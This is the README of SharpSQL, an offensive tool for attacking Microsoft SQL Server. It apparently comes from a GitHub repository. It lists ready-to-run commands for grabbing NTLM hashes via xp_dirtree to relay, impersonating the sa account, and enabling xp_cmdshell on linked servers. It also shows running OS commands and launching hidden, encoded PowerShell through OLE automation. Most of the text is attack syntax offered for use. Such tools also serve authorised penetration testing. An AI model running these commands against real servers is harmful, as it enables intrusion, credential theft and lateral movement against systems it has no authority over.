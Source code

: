 # SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

## Usage
```
SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd, Invoke-LinkedOSCmd, Invoke-ExternalScript, and Invoke-OLEObject)
    -Query                     - The raw SQL query to execute
    -help                      - Show help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases
    Get-DBUser                 - Get database user via USER_NAME
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin')
    Get-Hash                   - Get hash via xp_dirtree, works nicely with impacket-ntlmrelayx
    Get-ImpersonableUsers      - Get impersonable users
    Get-LinkedServers          - Get linked SQL servers
    Get-LinkedPrivs            - Get current user privs for linked server
    Get-Sysadmins              - Get sysadmin users
    Get-SystemUser             - Get system user via SYSTEM_USER
    Get-SQLQuery               - Execute raw SQL query
    Get-Triggers               - Get SQL server triggers
    Get-Users                  - Get users from syslogins
    Get-UserPrivs              - Get current user server privileges
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server
    Enable-Cmdshell            - Enable xp_cmdshell on instance
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server
    Invoke-OSCmd               - Execute system command via_xp_cmdshell on instance
    Invoke-LinkedOSCmd         - Executes system command via xp_cmdshell on linked server
    Invoke-ExternalScript      - Invoke external python script command execution
    Invoke-OLEObject           - Invoke OLE wscript command execution
    Invoke-UserImpersonation   - Impersonate user and execute query
    Invoke-DBOImpersonation    - Impersonate dbo on msdb and execute query

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
```


## Demos and Examples
### Get-GroupMembership
![image](https://user-images.githubusercontent.com/47215311/153180706-78e2a53c-79fb-4db0-ba03-cda16d476966.png)

### Get-SQLquery
![image](https://user-images.githubusercontent.com/47215311/153181678-6d61bb45-ff9b-4451-93ff-9497ab875bc5.png)

### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153182593-e40747ff-b9f1-4ed4-a634-556f37e617ea.png)

### OLE Object via Impersonation
```
.\SharpSQL.exe invoke-userimpersonation -instance dc01 -user sa -Query "EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'powershell -exec bypass -nop -w hidden -enc blahblah';"
```

### Impersonation and xp_cmdshell
```
.\SharpSQL.exe invoke-userimpersonation -instance dc01 -user sa -Query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"

.\SharpSQL.exe invoke-userimpersonation -instance dc01 -user sa -Query "EXEC xp_cmdshell 'whoami'"
```







## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Invoke-CustomAsm`
    - `Add-User`
    - `Add-LinkedUser`
    - `Enable-RPC` - on instance and linkedinstance, allows for EXEC... AT...
    - double link crawl functionality, raw queries should work as is
